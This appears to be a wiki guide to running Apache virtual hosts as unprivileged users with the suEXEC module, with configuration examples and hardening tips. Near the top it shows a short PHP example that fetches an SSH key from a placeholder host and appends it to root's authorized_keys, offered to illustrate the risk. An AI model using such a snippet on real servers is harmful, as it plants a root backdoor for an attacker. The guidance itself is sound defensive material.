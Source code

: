 This document describes how to use Apache's suEXEC module in order to have virtual hosts running as a unprivileged user. Generally it's good practice not to let any kind of webspace have superuser privileges like this rather brutal PHP example shows:

```
   <?php
     # of course this link doesn't lead anywhere
     $rsa_key = file('http://yourhost.homeip.net/id_rsa.pub');
     exec("cat ${rsa_key[[0]]} >>/root/.ssh/authorized_keys");
   ?>

```

You get the point, do you? To prevent this, never let any virtual host have write access anywhere but in its own home directory or DocumentRoot. Unfortunately this method requires Apache to run as superuser in order to be able to become another user but it's not a big deal since you do not need to run in the default DocumentRoot as superuser too.

You should also consider using suEXEC if you intend to have several FTP accounts pointing to those webspaces which need write permissions while the files still can be read by Apache.

Beware, though, that it is a security risk when the webserver can write to the php files, like when you have an FTP user website1 and the site runs as website1 as well. Code is often injected in PHP files such cases. It is far too common for self-upgradable or installable PHP software to require this permission model, without informing the user of the risk.

## Contents

*   [1 Prerequisites](#Prerequisites)
*   [2 Adding the suEXEC module to Apache](#Adding_the_suEXEC_module_to_Apache)
*   [3 Setting up a virtual Host to use suEXEC](#Setting_up_a_virtual_Host_to_use_suEXEC)
*   [4 "Disabling" default DocumentRoot](#.22Disabling.22_default_DocumentRoot)
*   [5 Finishing up](#Finishing_up)
*   [6 References](#References)

## Prerequisites

*   you should be familiar with basic configuration of Apache
    *   especially virtual hosts
*   superuser access to the target box
*   knowledge about adding users
*   can work with pacman

## Adding the suEXEC module to Apache

*   load the suEXEC module in `/etc/httpd/conf/httpd.conf` like this:

```
LoadModule suexec_module        lib/apache/mod_suexec.so

```

*   make sure Apache's default DocumentRoot does not run as superuser either!

```
User http
Group http

```

## Setting up a virtual Host to use suEXEC

One way to do it is directly in `/etc/httpd/conf/httpd.conf` but I suggest to use a separate file if you intend to create more than just a couple of virtual hosts. Either way, a virtual host that is supposed to use suEXEC may look something like this:

```
<VirtualHost 192.168.0.1:80>
        ServerName myhost
        ServerAlias  myhost.localdomain
        # this is where requests for / go
        DocumentRoot /home/www/vhosts/myhost.localdomain/htdocs

        # here you tell which user (myhost) and group (ftponly) Apache should use
        SuexecUserGroup myhost ftponly

        # the following are optional but might be of use for you
        ScriptAlias /cgi-bin/ /home/www/vhosts/myhost.localdomain/htdocs/cgi-bin
        php_admin_value open_basedir /home/www/vhosts/myhost.localdomain/htdocs
        php_admin_value upload_tmp_dir  /home/www/vhosts/myhost.localdomain/tmp
        # Safe mode will be removed as of PHP 6\. You may want to not enable it.
        php_admin_flag safe_mode On
        ErrorDocument 404 /home/www/vhosts/myhost.localdomain
        <Directory "/home/www/vhosts/myhost.localdomain/htdocs">
                AllowOverride None
                Order allow,deny
                Allow from all
                Options +SymlinksIfOwnerMatch +Includes
        </Directory>
</VirtualHost>

```

Note that we set upload_tmp_dir to a folder that is outside the document root of your web site (not `/home/www/vhosts/myhost.localdomain/htdocs/tmp`). It should also be not readable or writable by any other system users. This is for security reasons: this way it cannot be modified or overwritten while PHP is processing it.

## "Disabling" default DocumentRoot

To further harden your setup you can disable the default *DocumentRoot* in order to not have Apache execute anything as the superuser itself runs as. This procedure does not really disable it, rather points it somewhere where it's not remotely accessible anymore. It can be easily achieved by replacing your default *ServerName* with the following:

```
ServerName localhost:80

```

## Finishing up

Every time you change default configuration parameters you need to [restart](/index.php/Restart "Restart") the `httpd.service` (Apache) to make them take effect.

## References

*   more in depth information about suEXEC: [http://httpd.apache.org/docs/suexec.html](http://httpd.apache.org/docs/suexec.html)
*   same about VirtualHosts: [http://httpd.apache.org/docs/vhosts/index.html](http://httpd.apache.org/docs/vhosts/index.html)